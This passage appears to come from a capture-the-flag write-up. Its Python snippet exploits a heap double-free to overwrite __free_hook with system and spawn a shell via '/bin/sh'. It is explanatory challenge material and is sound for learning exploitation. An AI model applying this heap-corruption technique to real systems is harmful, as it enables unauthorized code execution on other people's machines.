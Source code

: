 
---

This is the code we wrote to accomplish it:
```python
    m1_addr = heap + 14800
    idx_for_m1_addr = (0x16e0 / 8)
    idx_for_nulls = idx_for_m1_addr + 1

    # This node is used to keep the pointer to m1 and a pointer to a 'null' node (aka no parent, left or right)
    create_node(s, m1_addr, pointer_to_nulls)

    # Create m1, the node we will want to free twice
    m1 = create_node(s)

    # Free m1, the first time
    del_node(s, m1)

    # Select m1's addr and free it again
    select_node(s, idx_for_m1_addr)
    del_node(s, 0)

    # m2 will get the same addr as m1.
    # Corrupt: m1->next == `__free_hook`
    m2 = create_node(s, free_hook, 0)

    select_node(s, idx_for_nulls)
    m3 = create_node(s)

    # m4 will get the addr of `__free_hook`. Write `system` there!
    m4 = create_node(s, system, 0)

    # Creats a node pointing to "/bin/sh\x00"
    create_node(s, u64("/bin/sh\x00"), 0)

    # Adding a second node with the same val will fail and result in `free(node_2)`
    # We made `__free_hook` point to system and so we get `system("/bin/sh\x00")`
    create_node(s, u64("/bin/sh\x00"), 0)
```

---
Running the exploit:

![](final_scrn.png)
